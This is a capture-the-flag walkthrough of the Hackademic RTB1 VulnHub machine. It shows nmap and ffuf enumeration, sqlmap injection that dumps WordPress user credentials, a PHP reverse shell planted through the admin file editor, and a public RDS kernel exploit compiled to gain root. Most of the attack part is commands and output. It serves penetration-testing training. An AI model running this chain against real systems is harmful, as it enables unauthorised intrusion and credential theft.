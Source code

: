 # Hackademic: RTB1

## 1.Get VM IP

```bash
root@kali: nmap -sn 192.168.127.0/24
                
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 03:57 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00052s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.140
Host is up (0.0015s latency).
MAC Address: 00:0C:29:F6:75:CB (VMware)
Nmap scan report for 192.168.127.254
Host is up (0.00041s latency).
MAC Address: 00:50:56:EF:E6:A0 (VMware)
Nmap scan report for 192.168.127.128
Host is up.
```

The machine IP is `192.168.127.140`, lets enumerate it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.140 -oN fullscan

Nmap scan report for 192.168.127.140
Host is up (0.00079s latency).
Not shown: 988 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited)
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd 2.2.15 ((Fedora))
|_http-server-header: Apache/2.2.15 (Fedora)
|_http-title: Hackademic.RTB1  
| http-methods: 
|_  Potentially risky methods: TRACE
MAC Address: 00:0C:29:F6:75:CB (VMware)
```


Visit the main page and click on `target` link and you will be redirected to `http://192.168.127.140/Hackademic_RTB1/`

let's fuzz this path :

```bash
root@kali: ffuf -w ~/wordlist/raft-large-directories.txt  -u http://192.168.127.140/Hackademic_RTB1/FUZZ/

[Status: 200, Size: 1160, Words: 64, Lines: 16, Duration: 11ms]
    * FUZZ: wp-content

[Status: 200, Size: 6523, Words: 301, Lines: 41, Duration: 13ms]
    * FUZZ: wp-includes

[Status: 200, Size: 2010, Words: 98, Lines: 20, Duration: 10ms]
    * FUZZ: wp-images

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 693ms]
    * FUZZ: wp-admin

[Status: 500, Size: 1881, Words: 127, Lines: 44, Duration: 681ms]
    * FUZZ:
```

we have found `wp-admin` directory and we find that it is like a wordpress CMS


![wordpress](https://github.com/Git-K3rnel/VulnHub/assets/127470407/4e5f0d96-8003-43d6-8017-cf754c9dd903)

back to main page, if you click on `Uncategorized` link on the bottom of the page a new url parameter will be used `cat=1`


![mainpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c52c6ac0-63be-4823-9489-7a5679510cd8)


this paramter is vulnerable to sql injection if you put a `"` after it :


![sqli](https://github.com/Git-K3rnel/VulnHub/assets/127470407/feabd11a-29df-4ea8-84f3-c31e5217fa4f)

i tried with `sqlmap` to inject into this paramter and get the database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs

...
back-end DBMS: MySQL >= 5.0
[05:03:56] [INFO] fetching database names
[05:03:56] [INFO] resumed: 'information_schema'
[05:03:56] [INFO] resumed: 'mysql'
[05:03:56] [INFO] resumed: 'wordpress'
available databases [3]:
[*] information_schema
[*] mysql
[*] wordpress
...
```

all we need here is to get information from `wordpress` database.

- Get tables from this database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress --tables

Database: wordpress
[9 tables]
+-------------------+
| wp_categories     |
| wp_comments       |
| wp_linkcategories |
| wp_links          |
| wp_options        |
| wp_post2cat       |
| wp_postmeta       |
| wp_posts          |
| wp_users          |
+-------------------+
```

interesting table would be `wp_users` so let's get information from it :

- Get columns of `wp_users` table :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress -T wp_users --columns

Database: wordpress
Table: wp_users
[22 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(60)         |
| user_aim            | varchar(50)         |
| user_browser        | varchar(200)        |
| user_description    | longtext            |
| user_domain         | varchar(200)        |
| user_email          | varchar(100)        |
| user_firstname      | varchar(50)         |
| user_icq            | int(10) unsigned    |
| user_idmode         | varchar(20)         |
| user_ip             | varchar(15)         |
| user_lastname       | varchar(50)         |
| user_level          | int(2) unsigned     |
| user_login          | varchar(60)         |
| user_msn            | varchar(100)        |
| user_nicename       | varchar(50)         |
| user_nickname       | varchar(50)         |
| user_pass           | varchar(64)         |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
| user_yim            | varchar(50)         |
+---------------------+---------------------+
```

interesting columns would be `user_login`, `user_pass`, `user_level`, `user_email`, let's get those infos :

- Get data from the desired columns :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress -T wp_users -C user_login,user_pass,user_level,user_email --dump

Database: wordpress                                                                                                                                             
Table: wp_users
[6 entries]
+--------------+---------------------------------------------+------------+-------------------------+
| user_login   | user_pass                                   | user_level | user_email              |
+--------------+---------------------------------------------+------------+-------------------------+
| NickJames    | 21232f297a57a5a743894a0e4a801fc3 (admin)    | 1          | NickJames@hacked.com    |
| MaxBucky     | 50484c19f1afdaf3841a0d821ed393d2 (kernel)   | 0          | MaxBucky@hacked.com     |
| GeorgeMiller | 7cbb3252ba6b7e9c422fac5334d22054 (q1w2e3)   | 10         | GeorgeMiller@hacked.com |
| JasonKonnors | 8601f6e1028a8e8a966f6c33fcd9aec4 (maxwell)  | 0          | JasonKonnors@hacked.com |
| TonyBlack    | a6e514f9486b83cb53d8d932f9a04292 (napoleon) | 0          | TonyBlack@hacked.com    |
| JohnSmith    | b986448f0bb9e5e124ca91d3d650f52c            | 0          | JohnSmith@hacked        |
+--------------+---------------------------------------------+------------+-------------------------+
```

as we see here sqlmap has cracked some of the hashes and according to `user_level` user `GeorgeMiller` has the highest level of `10`

we use this user with credentials `GeorgeMiller:q1w2e3` to login to `/wp-admin` directory.

![adminpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/202f3a0a-7eb7-4365-b2a9-236c13b190b1)

## 3.Gaining Shell 

After checking various parts of the CMS i found that in `Manage` menu and in `Files` submenu we can edit a `hello.php` file.

![managePage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/4c17ebfc-14fc-40d8-b56b-b81b95a47e16)


i just paste a php reverse shell (pentestmonkey) payload and updated the file.

run a listener on you kali machine and navigate to `wp-content/plugins/hello.php`

```bash
root@kali: nv -nvlp 4444
          
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.140] 35822
Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
 07:05:40 up  2:12,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=489(apache) groups=489(apache)
sh: no job control in this shell
sh-4.0$ id
id
uid=48(apache) gid=489(apache) groups=489(apache)
sh-4.0$
```

## 4.Privilege Escalation

Now we are on the victim machine, after checking various PE vectors i came to nothing but checking the kernel version 

showed that this version is vulnerable :

```bash
sh-4.0$ uname -a

Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
```

just check the searchsploit for any public exploit for this version (you need to check a lot of exploit to find the appropriate one)

i just came to this exploit that worked for me

```bash
root@kali: searchsploit linux 2.6 -w | grep 1528
Linux Kernel 2.6.36-rc8 - 'RDS Protocol' Local Privilege Escalation                                                 | https://www.exploit-db.com/exploits/15285
```

upload it on the victim and compile it :

```bash
bash-4.0$ cd /tmp
bash-4.0$ gcc 15285.c 
bash-4.0$ ./a.out 
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
sh-4.0# id
uid=0(root) gid=0(root)
sh-4.0# 
```

yes, this is how we can root this machine :)













